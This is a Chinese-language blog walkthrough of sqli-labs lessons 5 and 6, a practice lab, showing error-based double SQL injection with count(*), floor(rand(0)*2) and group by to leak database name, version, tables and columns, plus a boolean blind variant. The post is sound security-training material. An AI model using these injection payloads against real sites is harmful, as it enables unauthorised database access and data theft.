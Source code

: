 ```yaml
---
layout: post
title: sqli-labs Lesson-5-6 双重注入
subtitle: 
date: 2020-01-04
author: kevin
header-img: img/green-bg.jpg
catalog: true
tags:
    - sql
    - sql injection
    - security
---
```




## preface

这篇文章是 sqli-labs 的第五和第六关题解，都涉及到了基于报错的双重注入



## 开始做题



先按部就班吧，我们先找注入点，输入 `'` 后报错，根据报错信息确定了可能存在字符型注入

![error](https://i.loli.net/2020/01/06/7aAQW2wF85KdSXr.png)



然后就尝试闭合咯，屏幕输出 “ You are in ”

![you_are_in](https://i.loli.net/2020/01/06/C5NHWZ1mXP4ShEG.png)



接下去用 `order by` 爆破字段的个数，4 的时候报错，所以只有三个字段

![column_num](https://i.loli.net/2020/01/06/vexXI54PQiGTRmW.png)



再来看看会不会有字段显示出来，用 union 查询



不显示东西。。如果有记录的话就会显示 “you are in” ，没记录的话直接就报错了，这里我没办法了，上网看了别人的解决方案，学习到了一波新的知识然后自己用不同方法做了一遍



这种基于报错的但是页面又不显示出表的字段的 sql 注入都可以通过 sql 聚合函数和分组来回显报错信息，简单来说就是用 `count(*)` 、`rand()` 以及 `group by` 三个函数就可以将我们想要获取的信息通过报错的方式显示出来，具体原理以后再~~补~~（咕），不过这种方法只能用 limit 来一条一条输出，不能用 group_concat 来拼接



看下下面这个句子，这就是个标准的报错公式，rand() 函数生成一个 0-1 的随机数，floor() 的功能是向下取整，因此 floor(rand(0)*2)  就是 0 或者 1 ，看报错信息，这里说 entry 重复了

```sql
mysql> select count(*),floor(rand(0)*2) x from information_schema.tables group by x; 
ERROR 1062 (23000): Duplicate entry '1' for key 'group_key' 
```



我们用 concat 连接一下试试会发生什么

```sql
mysql> select count(*),concat('------',(floor(rand(0)*2))) x from information_schema.tables group by x; 
ERROR 1062 (23000): Duplicate entry '------1' for key 'group_key' 
```



可以看到，报错信息被改变了，也就是说我们的自定义字符串和原本报错的 entry 给拼接在了一起，我们就是利用这个特点来进行注入的，接下来就查询一下这张表所在的数据库

```sql
' union select 1, count(*),concat(database(),'-',floor(rand(0)*2))a from information_schema.tables group by a--+
```

![encode-error](https://i.loli.net/2020/01/06/ufxTUHknicoAYV8.png)



报错了，肯定是编码的问题。在网上查到解决办法，用 `binary()` 函数转化一下即可，然后就得到了数据库的名字

```sql
' union select 1, count(*),concat(binary(database()),'-',floor(rand(0)*2))a from information_schema.tables group by a--+
```

![database](https://i.loli.net/2020/01/06/hHFa2yRYSW3bGdz.png)



> 这里分享一下网上一位老哥的做法，有点啰嗦，但是很巧妙，用 substr() , ascii() 等函数将数据库名字分来，一位意味猜，这算是基于布尔的盲注了



根据报错与否判断出数据库的长度

```sql
' or length(database())=8 --+
```

再根据 ASCII 字符的大小比较来判断数据库每一位是什么，就这样一位一位硬核爆出来，感觉思路很好，万一有些函数被禁了就可以尝试一下这种方法

```sql
' or substr(database(),2,1)='e' --+
```



再查询相关信息，平台，数据库版本等

```sql
' union select 1, count(*),concat_ws('-', binary(@@version_compile_os), user(), version(),floor(RAND(0)*2))a from information_schema.tables group by a--+
```

![all-info](C:\Users\kevin\AppData\Roaming\Typora\typora-user-images\1578314974609.png)



接下去就爆出表的名字，但是报错了，说子查询的结果多于 1 列

```sql
' union select 1, count(*),concat_ws('-', (select table_name from information_schema.tables where table_schema='security'),floor(RAND(0)*2))a from information_schema.tables where table_schema='security' group by a--+
```

![table](https://i.loli.net/2020/01/06/d2HEZam7RnJs1Ml.png)



想起来，这种基于聚合函数的报错只能用 limit 一条一条看，那就改一下，一个一个查，查到三张表，`uagents`、`users` 、`emails` 和 `referers` 

![tables](C:\Users\kevin\AppData\Roaming\Typora\typora-user-images\1578315709270.png)



表名应该就是 users 了，就算不是也可以一个一个查。知道数据库和表名，字段的个数也知道了，接下去就判断字段的名称了，先用 count 查到有 3 个字段（废话，前面就已经知道了，只是提供一种方法）

```sql
' union select 1, count(*),concat_ws('-', (select column_name from information_schema.columns where table_name='users' and table_schema='security' limit 1, 1), floor(RAND(0)*2))a from information_schema.tables where table_schema='security' group by a--+
```

![column_name](C:\Users\kevin\AppData\Roaming\Typora\typora-user-images\1578317810619.png)



然后就一个一个爆字段，得到所有的字段名和在表中的顺序，到这里也就将所有的信息都爆出来了，结束注入，第六题是一样的，就是将单引号变成双引号而已



## reference



https://www.jianshu.com/p/8c2343705100

https://blog.51cto.com/obnus/532116

https://blog.csdn.net/baidu_37576427/article/details/76146974
